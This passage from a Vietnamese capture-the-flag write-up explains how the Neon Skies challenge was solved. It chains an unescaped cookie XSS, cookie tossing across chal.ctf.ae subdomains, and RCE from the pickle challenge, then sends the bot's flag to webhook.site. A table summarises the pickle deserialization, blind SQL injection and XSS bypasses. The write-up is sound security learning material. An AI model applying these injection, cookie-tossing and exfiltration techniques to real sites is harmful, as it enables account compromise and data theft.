    <button class="btn btn--ghost" type="button" data-copy="#flag">Copy designation</button>
    <p class="seed__meta">Custodian: <%= HTML.escape(@username) %></p>
  </div>
  ```
- **Lỗ hổng cốt lõi:** Biến `@flag` được in trực tiếp vào DOM mà **hoàn toàn không qua `HTML.escape()`**!
- Trong `web/src/neon_skies.cr`: Biến `@flag` lấy trực tiếp từ cookie: `cookie_value(request, "FLAG")`.
- Nếu cookie `FLAG` chứa mã HTML/JavaScript độc, nó sẽ thực thi ngay trên origin của `/admin`!



---

## 3.4. Bước 3: Cơ chế Bot & Kỹ thuật Cookie Tossing
Kiểm tra file cấu hình Bot (`bot/conf.js`):
- Con bot Playwright chạy Chromium nạp cờ thật vào cookie:
  ```javascript
  await context.addCookies([
    { name: "FLAG", value: flag.value, url: challenge.appUrl.origin, httpOnly: true, sameSite: "Strict" }
  ]);
  ```
- **Rào cản:** `httpOnly: true` (JavaScript không thể đọc `document.cookie`) và `sameSite: "Strict"` (trình duyệt chặn gửi cookie khi điều hướng cross-site từ domain lạ).
- **Hóa giải bằng Cookie Tossing (RFC 6265 §5.3):**
  - Mọi bài thi chạy trên subdomain của `chal.ctf.ae`.
  - Một subdomain hợp lệ thuộc `*.chal.ctf.ae` được phép set cookie cấp domain cha:
    `document.cookie = "FLAG=" + xss + "; domain=chal.ctf.ae; path=/";`
  - Khi bot điều hướng từ subdomain này sang `65b68ef3c79fb356.chal.ctf.ae/admin`, đây là **Same-Site Navigation**, nên cookie `SameSite=Strict` gốc vẫn được giữ lại!
  - Bộ phân tích HTTP Cookie của Crystal hoạt động theo cơ chế **Last-Wins**, ưu tiên in cookie tiêm ra màn hình $\rightarrow$ Kích hoạt mã XSS!



---

## 3.5. Bước 4: Phối hợp Cross-Challenge tận dụng RCE bài `pickle`
- Để thực hiện Cookie Tossing, ta cần một subdomain thuộc `*.chal.ctf.ae`.
- Ta tận dụng chính lỗ hổng RCE từ bài **`pickle`** (`https://0c6523a28168f7fd.chal.ctf.ae/`):
  1. Dùng deserialization RCE ghi 2 file vào `/tmp/` (do `/app/static` bị read-only):
     - `/tmp/evil.html`: Ghi cookie độc vào `domain=chal.ctf.ae` rồi redirect bot về `/admin`.
     - `/tmp/s.js`: Kịch bản xóa cookie bẩn, gọi lại `/admin` để lấy cờ thật và gửi về Webhook.
  2. Cập nhật cấu hình Flask động: `webapp.app.static_folder = '/tmp'`.
  3. Instance `pickle` trở thành máy chủ phục vụ payload chuẩn HTTPS!



---

## 3.6. Bước 5: Nộp link cho Bot tuần tra tại `/report`
- Mở trang Report Desk: `https://65b68ef3c79fb356.chal.ctf.ae/report`.
- Nhập URL: `https://0c6523a28168f7fd.chal.ctf.ae/static/evil.html` và nhấn **Send the archivist**.
- Hệ thống trả về thông báo màu xanh:
  > *"Filed. The archivist looked at https://0c6523a28168f7fd.chal.ctf.ae/static/evil.html and moved on."*



---

## 3.7. Bước 6: Bot dính XSS & Trích xuất cờ thật từ Seed Vault
- Bot mở `evil.html` $\rightarrow$ Set cookie `FLAG` chứa thẻ `<script src="...s.js">` cấp domain `chal.ctf.ae` $\rightarrow$ Chuyển hướng sang `/admin`.
- Tại `/admin`, template in unescaped script $\rightarrow$ `s.js` được nạp:
  1. `s.js` lập tức xóa cookie giả cấp domain cha (`expires=1970`).
  2. Gửi request `fetch('/admin')`. Lúc này chỉ còn cookie gốc mang cờ thật $\rightarrow$ Server in cờ thật vào `<output id="flag">`.
  3. Script cào cờ từ DOM và gửi về Webhook.site.



---

## 3.8. Bước 7: Thu thập Flag trên Webhook.site
- Trên trang Webhook `https://webhook.site/#!/08470564-f80c-4271-b2f2-8acc4f44a5a9`, 3 gói tin beacon từ Chromium của Bot lập tức cập bến:
  - Beacon khởi động: `stage=s.js_loaded@admin`
  - Beacon GET cờ: `flag=pwnsec{9abdf66a5f2afecb}`
  - Beacon POST dự phòng: `flag=pwnsec{9abdf66a5f2afecb}`



```text
=======================================================
[🎉] FLAG THU ĐƯỢC: pwnsec{9abdf66a5f2afecb}
=======================================================
```

$\rightarrow$ **Flag:** `pwnsec{9abdf66a5f2afecb}`

---

# KẾT LUẬN & BÀI HỌC KINH NGHIỆM

| Bài toán | Lỗ hổng cốt lõi | Rào cản chính | Chìa khóa Bypass |
|---|---|---|---|
| **`pickle`** | Insecure Deserialization | Cấm chuỗi ký tự, cấm `REDUCE`, cấm dấu `.`, whitelist module | Dùng hex-escape `\x..` trong opcode `S`; bỏ qua `STOP` để bypass bộ lọc `check()`; dùng `sessionstore.__builtins__` kết hợp `INST`, `BUILD` và `OBJ` để gọi hàm `eval`. |
| **`PHAULT`** | SQL Injection | Ép sleep 2.0s để chống Timing Attack, output bị ẩn hoàn toàn | Tận dụng cơ chế gán biến `INTO @var`: nếu đúng $\rightarrow$ lỗi MySQL (>1 row) $\rightarrow$ clean exit; nếu sai $\rightarrow$ MySQL trả `bool(true)` $\rightarrow$ kích hoạt `fetch_row() on bool` (PHP Fatal Error) tạo thành Boolean Oracle. |
| **`Neon Skies`** | Self-XSS & Cookie Tossing | Cookie cờ có `SameSite=Strict` và `HttpOnly=True`, không có CSP nhưng không có điểm tiêm XSS trực tiếp | Tận dụng cơ chế cookie phân cấp của RFC 6265 trên domain `chal.ctf.ae` để Cookie Toss; dùng RCE từ bài `pickle` (`static_folder = '/tmp'`) làm bệ phóng máy chủ HTTPS; xóa cookie giả sau khi XSS kích hoạt để đọc cờ thật từ backend Crystal (Last-Wins). |
